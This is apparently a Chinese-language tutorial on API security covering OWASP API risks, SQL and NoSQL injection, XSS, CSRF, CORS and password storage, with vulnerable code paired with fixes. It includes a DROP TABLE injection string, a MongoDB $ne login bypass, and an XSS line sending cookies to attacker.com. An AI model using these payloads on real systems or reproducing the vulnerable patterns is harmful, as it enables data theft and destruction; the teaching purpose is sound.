

# API 安全 - 常见安全威胁与防护

> 阅读本文档前，请先完成 `doc_01.md` 的学习。

本文档讲解API面临的常见安全威胁，以及如何防护。

---

## 一、OWASP API Security Top 10

OWASP（开放式Web应用程序安全项目）发布了API安全十大威胁。我们重点讲解最常见的几种。

### API1: 对象级别授权失效（BOLA/IDOR）

**问题描述**：
用户可以通过修改URL参数访问不属于自己的资源。

**攻击示例**：
```
正常请求：
GET /api/users/123/orders
→ 返回用户123的订单（假设当前登录用户是123）

攻击尝试：
GET /api/users/124/orders
→ 如果没有权限检查，会返回用户124的订单！
```

**真实案例类比**：
```
就像你在银行ATM取钱：
- 插入自己的卡（账户123）
- 输入密码（认证通过）
- 屏幕上输入账户124
- ATM没检查，就把账户124的钱给你了！
```

**漏洞代码**：
```java
// ❌ 错误：只检查了用户是否登录，没检查资源归属
@GetMapping("/users/{userId}/orders")
public List<Order> getUserOrders(@PathVariable Long userId) {
    // 问题：没有检查当前登录用户是否等于userId
    return orderService.getOrdersByUserId(userId);
}
```

**修复方法**：
```java
// ✅ 正确：检查资源归属
@GetMapping("/users/{userId}/orders")
public List<Order> getUserOrders(
    @PathVariable Long userId,
    @AuthenticationPrincipal User currentUser
) {
    // 检查：当前用户是否是userId本人（或管理员）
    if (!currentUser.getId().equals(userId) && !currentUser.isAdmin()) {
        throw new ForbiddenException("无权访问其他用户的订单");
    }
    
    return orderService.getOrdersByUserId(userId);
}
```

**防护原则**：
- 每次访问资源前，检查当前用户是否有权限
- 不要信任客户端传来的用户ID
- 使用从Token/Session中解析的用户ID

**决策树**：


### API2: 认证失效（Broken Authentication）

**常见问题**：

#### 问题1：弱密码策略
```
❌ 允许弱密码：
"123456", "password", "admin"

✅ 强密码策略：
- 最少8位
- 包含大小写字母、数字、特殊字符
- 不允许常见弱密码
```

#### 问题2：暴力破解无防护
```
攻击者尝试：
POST /login {username: "admin", password: "123456"}  → 失败
POST /login {username: "admin", password: "123457"}  → 失败
POST /login {username: "admin", password: "123458"}  → 失败
... 重复10000次

如果没有限制，攻击者可以遍历所有密码
```

**防护方法**：
```java
// 1. 限制登录尝试次数
public class LoginService {
    private Map<String, Integer> failedAttempts = new HashMap<>();
    
    public void login(String username, String password) {
        int attempts = failedAttempts.getOrDefault(username, 0);
        
        // 超过5次失败，锁定账户15分钟
        if (attempts >= 5) {
            throw new TooManyAttemptsException("账户已锁定，请15分钟后重试");
        }
        
        if (!passwordMatches(username, password)) {
            failedAttempts.put(username, attempts + 1);
            throw new BadCredentialsException("用户名或密码错误");
        }
        
        // 登录成功，清除失败记录
        failedAttempts.remove(username);
    }
}

// 2. 密码加盐哈希存储（永远不要明文存储密码）
public String hashPassword(String password) {
    String salt = generateSalt();  // 随机盐
    String hashed = bcrypt(password + salt);
    return salt + ":" + hashed;
}
```

#### 问题3：Token无过期时间
```
❌ Token永久有效：
{
  "userId": 123,
  "username": "zhangsan"
  // 没有exp字段
}

✅ 设置过期时间：
{
  "userId": 123,
  "username": "zhangsan",
  "iat": 1626239022,      // 签发时间
  "exp": 1626242622       // 过期时间（1小时后）
}
```

### API3: 过度数据暴露（Excessive Data Exposure）

**问题描述**：
API返回了超出需要的敏感数据。

**攻击示例**：
```
请求：
GET /api/users/123

❌ 返回过多信息：
{
  "id": 123,
  "username": "zhangsan",
  "email": "zhangsan@example.com",
  "password": "$2a$10$...",          // 密码哈希（不应返回）
  "phoneNumber": "13800138000",      // 手机号（不应返回）
  "idCard": "110101199001011234",    // 身份证（不应返回）
  "salary": 50000,                    // 薪资（不应返回）
  "role": "admin"
}

✅ 只返回必要信息：
{
  "id": 123,
  "username": "zhangsan",
  "email": "zhangsan@example.com",
  "role": "admin"
}
```

**防护方法**：

#### 方法1：使用DTO（数据传输对象）
```java
// 实体类（数据库映射）
public class User {
    private Long id;
    private String username;
    private String email;
    private String password;      // 敏感
    private String phoneNumber;   // 敏感
    private String idCard;        // 敏感
    private Integer salary;       // 敏感
    private String role;
}

// DTO（API返回）
public class UserDTO {
    private Long id;
    private String username;
    private String email;
    private String role;
    
    // 只包含公开字段
}

// Controller
@GetMapping("/users/{id}")
public UserDTO getUser(@PathVariable Long id) {
    User user = userService.getById(id);
    return UserDTO.from(user);  // 转换为DTO
}
```

#### 方法2：使用@JsonIgnore注解
```java
public class User {
    private Long id;
    private String username;
    
    @JsonIgnore  // 序列化时忽略
    private String password;
    
    @JsonIgnore
    private String idCard;
}
```

### API4: 资源缺乏限制（Lack of Resources & Rate Limiting）

**问题描述**：
没有限制请求频率，导致服务被滥用。

**攻击示例**：
```
攻击者编写脚本：
for i in 1..1000000:
    GET /api/users?page={i}

结果：
- 服务器CPU 100%
- 数据库连接耗尽
- 正常用户无法访问
```

**防护方法**（限流）：

#### 策略1：固定窗口限流
```
规则：每分钟最多100次请求

时间轴：
00:00-01:00  第1-100次请求  → 允许
00:00-01:00  第101次请求   → 拒绝（429 Too Many Requests）
01:00-02:00  计数器重置     → 又可以请求100次
```

**缺点**：临界点流量突刺
```
00:59  发送100次请求
01:00  计数器重置
01:01  又发送100次请求
→ 2秒内发送了200次请求！
```

#### 策略2：滑动窗口限流（推荐）
```
规则：任意60秒内最多100次请求

记录每次请求的时间戳：
[00:30, 00:31, 00:32, ..., 01:29]

新请求到来（01:30）：
1. 移除60秒前的记录（00:30之前的）
2. 检查剩余记录数量
3. 如果 < 100，允许；否则拒绝
```

**实现示例**（简化版）：
```java
public class RateLimiter {
    // 用户ID -> 请求时间戳列表
    private Map<Long, List<Long>> requestLog = new HashMap<>();
    
    public boolean allowRequest(Long userId) {
        long now = System.currentTimeMillis();
        long windowStart = now - 60_000;  // 60秒前
        
        List<Long> timestamps = requestLog.getOrDefault(userId, new ArrayList<>());
        
        // 移除60秒前的记录
        timestamps.removeIf(t -> t < windowStart);
        
        // 检查是否超过限制
        if (timestamps.size() >= 100) {
            return false;  // 拒绝
        }
        
        // 记录本次请求
        timestamps.add(now);
        requestLog.put(userId, timestamps);
        
        return true;  // 允许
    }
}

// 在Controller中使用
@GetMapping("/api/users")
public List<User> getUsers(@AuthenticationPrincipal User currentUser) {
    if (!rateLimiter.allowRequest(currentUser.getId())) {
        throw new TooManyRequestsException("请求过于频繁，请稍后再试");
    }
    
    return userService.getAllUsers();
}
```

**HTTP响应**：
```
HTTP/1.1 429 Too Many Requests
Retry-After: 30
X-RateLimit-Limit: 100
X-RateLimit-Remaining: 0
X-RateLimit-Reset: 1626239082

{
  "code": 42900,
  "message": "请求过于频繁，请30秒后重试"
}
```

### API5: 功能级别授权失效（Broken Function Level Authorization）

**问题描述**：
普通用户可以调用管理员接口。

**攻击示例**：
```
攻击者（普通用户）尝试：
DELETE /api/users/999    → 删除其他用户（管理员功能）
POST /api/promotions      → 创建促销活动（管理员功能）
```

**漏洞代码**：
```java
// ❌ 没有权限检查
@DeleteMapping("/users/{id}")
public void deleteUser(@PathVariable Long id) {
    userService.delete(id);
}
```

**修复方法**：
```java
// ✅ 检查角色权限
@DeleteMapping("/users/{id}")
@RequiresRole("ADMIN")  // 注解方式
public void deleteUser(
    @PathVariable Long id,
    @AuthenticationPrincipal User currentUser
) {
    // 代码检查方式
    if (!currentUser.hasRole("ADMIN")) {
        throw new ForbiddenException("需要管理员权限");
    }
    
    userService.delete(id);
}
```

## 二、注入攻击

### SQL注入

**攻击原理**：
```
漏洞代码：
String sql = "SELECT * FROM users WHERE username = '" + username + "'";

攻击者输入：
username = "admin' OR '1'='1"

实际执行的SQL：
SELECT * FROM users WHERE username = 'admin' OR '1'='1'
→ OR '1'='1' 永远为真，返回所有用户！

更严重的攻击：
username = "admin'; DROP TABLE users; --"

实际执行：
SELECT * FROM users WHERE username = 'admin'; DROP TABLE users; --'
→ 删除整个users表！
```

**防护方法**：

#### 方法1：参数化查询（推荐）
```java
// ✅ 使用PreparedStatement（参数化查询）
String sql = "SELECT * FROM users WHERE username = ?";
PreparedStatement stmt = connection.prepareStatement(sql);
stmt.setString(1, username);  // 参数会被自动转义
ResultSet rs = stmt.executeQuery();

// 或使用ORM框架（如JPA、MyBatis）
@Query("SELECT u FROM User u WHERE u.username = :username")
User findByUsername(@Param("username") String username);
```

#### 方法2：输入验证
```java
// 验证用户名格式（只允许字母、数字、下划线）
public void validateUsername(String username) {
    if (!username.matches("^[a-zA-Z0-9_]{3,20}$")) {
        throw new IllegalArgumentException("用户名格式不合法");
    }
}
```

### NoSQL注入

**攻击原理**（以MongoDB为例）：
```javascript
// 漏洞代码
db.users.find({ username: req.body.username, password: req.body.password })

// 攻击者发送：
{
  "username": "admin",
  "password": { "$ne": null }   // $ne = not equal（不等于）
}

// 实际查询：
db.users.find({ username: "admin", password: { $ne: null } })
→ 查找username=admin且password不为null的用户
→ 绕过密码验证！
```

**防护方法**：
```javascript
// ✅ 输入验证
if (typeof req.body.username !== 'string' || typeof req.body.password !== 'string') {
    throw new Error("输入格式错误");
}

// ✅ 使用白名单
const allowedFields = ['username', 'password'];
Object.keys(req.body).forEach(key => {
    if (!allowedFields.includes(key)) {
        delete req.body[key];
    }
});
```

## 三、跨站攻击

### XSS（跨站脚本攻击）

**攻击原理**：
```
场景：博客评论功能

攻击者提交评论：
<script>
  // 窃取Cookie
  document.location = 'http://attacker.com/steal?cookie=' + document.cookie;
</script>

其他用户访问这个页面时：
→ 脚本执行
→ Cookie被发送到攻击者服务器
→ 攻击者获取用户的Session
```

**防护方法**：

#### 方法1：HTML转义（输出时）
```java
// ❌ 直接输出（危险）
<div th:text="${comment}"></div>
→ 如果comment包含<script>，会执行

// ✅ HTML转义
public String escapeHtml(String input) {
    return input
        .replace("&", "&amp;")
        .replace("<", "&lt;")
        .replace(">", "&gt;")
        .replace("\"", "&quot;")
        .replace("'", "&#x27;");
}

<script>alert('xss')</script>
→ 转义后：
&lt;script&gt;alert(&#x27;xss&#x27;)&lt;/script&gt;
→ 显示为文本，不会执行
```

#### 方法2：Content-Security-Policy（CSP）
```
HTTP响应头：
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com

含义：
- 只允许加载同域的资源
- 只允许执行来自同域或trusted.com的脚本
- 禁止内联脚本（<script>...</script>）
```

#### 方法3：HttpOnly Cookie
```java
// 设置Cookie时加上HttpOnly标志
Cookie cookie = new Cookie("sessionId", sessionId);
cookie.setHttpOnly(true);  // JavaScript无法访问
cookie.setSecure(true);    // 只在HTTPS下传输

// 这样即使有XSS漏洞，攻击者也无法窃取Cookie
```

### CSRF（跨站请求伪造）

**攻击原理**：
```
前提：用户已登录银行网站，Cookie中有Session

攻击者网站（evil.com）：


用户访问evil.com：
→ 浏览器自动发送请求到bank.com
→ 请求自动携带bank.com的Cookie
→ 银行服务器以为是用户发起的合法请求
→ 转账成功！
```

**防护方法**：

#### 方法1：CSRF Token
```java
// 1. 生成CSRF Token（登录时）
String csrfToken = generateRandomToken();
session.setAttribute("csrfToken", csrfToken);

// 2. 前端在表单中包含Token
<form action="/transfer" method="POST">
  <input type="hidden" name="csrfToken" value="${csrfToken}">
  <input name="to" value="...">
  <input name="amount" value="...">
  <button type="submit">转账</button>
</form>

// 3. 后端验证Token
@PostMapping("/transfer")
public void transfer(
    @RequestParam String to,
    @RequestParam Integer amount,
    @RequestParam String csrfToken,
    HttpSession session
) {
    String expectedToken = (String) session.getAttribute("csrfToken");
    
    if (!csrfToken.equals(expectedToken)) {
        throw new CsrfException("CSRF Token验证失败");
    }
    
    // 执行转账
}
```

**为什么有效**：
- 攻击者的网站无法获取用户在bank.com页面中的CSRF Token
- 因为浏览器的同源策略阻止跨域读取

#### 方法2：SameSite Cookie
```java
Cookie cookie = new Cookie("sessionId", sessionId);
cookie.setSameSite("Strict");  // 或 "Lax"

// Strict: Cookie不会在跨站请求中发送
// Lax: 只在顶级导航（用户点击链接）时发送
```

#### 方法3：验证Referer/Origin Header
```java
@PostMapping("/transfer")
public void transfer(HttpServletRequest request) {
    String referer = request.getHeader("Referer");
    
    // 检查请求是否来自本站
    if (referer == null || !referer.startsWith("https://bank.com")) {
        throw new CsrfException("非法的请求来源");
    }
    
    // 执行转账
}
```

### CORS（跨域资源共享）

**问题描述**：
```
前端（http://example.com）请求后端（http://api.example.com）：
→ 浏览器阻止（跨域）
```

**错误的CORS配置**：
```java
// ❌ 允许所有来源（危险）
@CrossOrigin(origins = "*")

// 问题：
// 恶意网站evil.com可以调用你的API
// 如果API使用Cookie认证，用户的Cookie会被发送
```

**正确的CORS配置**：
```java
// ✅ 只允许特定域名
@Configuration
public class CorsConfig {
    @Bean
    public WebMvcConfigurer corsConfigurer() {
        return new WebMvcConfigurer() {
            @Override
            public void addCorsMappings(CorsRegistry registry) {
                registry.addMapping("/api/**")
                    .allowedOrigins("https://example.com")  // 只允许example.com
                    .allowedMethods("GET", "POST", "PUT", "DELETE")
                    .allowCredentials(true)  // 允许携带Cookie
                    .maxAge(3600);
            }
        };
    }
}
```

## 四、数据安全

### 密码存储

```
❌ 绝对不要：
1. 明文存储：password = "123456"
2. 简单加密：password = md5("123456")
   → 彩虹表攻击可以反推

✅ 正确做法：加盐哈希
1. 生成随机盐：salt = "a8f5d2c9"
2. 哈希：hash = bcrypt("123456" + salt)
3. 存储：salt:hash

验证时：
1. 读取salt和hash
2. 计算bcrypt(输入密码 + salt)
3. 比较计算结果是否等于存储的hash
```

**实现**：
```java
import org.springframework.security.crypto.bcrypt.BCryptPasswordEncoder;

public class PasswordService {
    private BCryptPasswordEncoder encoder = new BCryptPasswordEncoder();
    
    // 注册时：加密密码
    public String hashPassword(String plainPassword) {
        return encoder.encode(plainPassword);
        // 返回：$2a$10$N9qo8uLOickgx2ZMRZoMyeIjZAgcfl7p92ldGxad68LJZdL17lhWy
        // 包含算法、salt、hash
    }
    
    // 登录时：验证密码
    public boolean verifyPassword(String plainPassword, String hashedPassword) {
        return encoder.matches(plainPassword, hashedPassword);
    }
}
```

### 敏感信息脱敏

**日志脱敏**：
```java
// ❌ 不要记录敏感信息
log.info("用户登录：username={}, password={}", username, password);

// ✅ 脱敏或不记录
log.info("用户登录：username={}", username);

// ✅ 手机号脱敏
public String maskPhone(String phone) {
    return phone.replaceAll("(\\d{3})\\d{4}(\\d{4})", "$1****$2");
    // 13800138000 → 138****8000
}

// ✅ 身份证脱敏
public String maskIdCard(String idCard) {
    return idCard.replaceAll("(\\d{6})\\d{8}(\\d{4})", "$1********$2");
    // 110101199001011234 → 110101********1234
}
```

**API响应脱敏**：
```java
public class UserDTO {
    private Long id;
    private String username;
    
    @JsonSerialize(using = PhoneMaskSerializer.class)
    private String phone;  // 自动脱敏
    
    @JsonIgnore
    private String idCard;  // 不返回
}
```

## 五、小结

**核心防护措施**：

1. **对象级别授权**：检查资源归属，不信任URL参数
2. **认证失效防护**：强密码策略、限制登录尝试、Token过期
3. **过度数据暴露**：使用DTO，只返回必要字段
4. **限流**：防止资源耗尽，使用滑动窗口算法
5. **功能级别授权**：检查角色权限
6. **SQL注入**：参数化查询，输入验证
7. **XSS**：HTML转义，CSP，HttpOnly Cookie
8. **CSRF**：CSRF Token，SameSite Cookie
9. **CORS**：只允许可信域名
10. **密码存储**：bcrypt加盐哈希，永不明文

**安全检查清单**：
```
✓ 每个API端点都有认证检查
✓ 每个资源访问都有授权检查
✓ 所有数据库查询都使用参数化
✓ 所有HTML输出都经过转义
✓ 敏感接口都有限流
✓ 密码经过bcrypt哈希
✓ 使用HTTPS传输
✓ 日志中敏感信息已脱敏
```

---

**下一步**：继续学习 `doc_03.md`，了解API安全的最佳实践和综合方案。

💡 **提示**：安全是系统工程，需要多层防护。单靠一两个措施是不够的。
